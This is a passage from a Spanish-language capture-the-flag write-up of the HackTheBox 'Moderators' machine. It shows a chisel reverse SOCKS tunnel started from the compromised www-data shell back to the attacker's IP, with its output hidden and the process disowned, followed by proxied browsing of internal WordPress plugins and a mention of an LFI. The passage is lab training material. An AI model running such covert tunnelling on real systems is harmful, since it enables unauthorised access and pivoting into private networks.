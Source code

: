 Me lo traigo a mi equipo por SOCKS5 con chisel

Primero creo el servidor

```null
chisel server -p 1234 --reverse
```

Desde la máquina víctima me conecto

```null
www-data@moderators:/dev/shm$ ./chisel client 10.10.14.7:1234 R:socks &>/dev/null & disown
```

Se está aplicando Virtual Hosting, así que añado el dominio moderators.htb apuntando al localhost y en el navegador, añado un proxy en el addon FoxyProxy

<img src="/writeups/assets/img/Moderators-htb/14.png" alt="">

Así carga correctamente

<img src="/writeups/assets/img/Moderators-htb/15.png" alt="">

Como ya estoy dentro de la máquina víctima, puedo ver directamente los plugins que están instalados y ahorrarme la fuerza bruta

```null
www-data@moderators:/opt/site.new/wp-content/plugins$ ls
brandfolder  index.php	passwords-manager
```

Encuentro un LFI
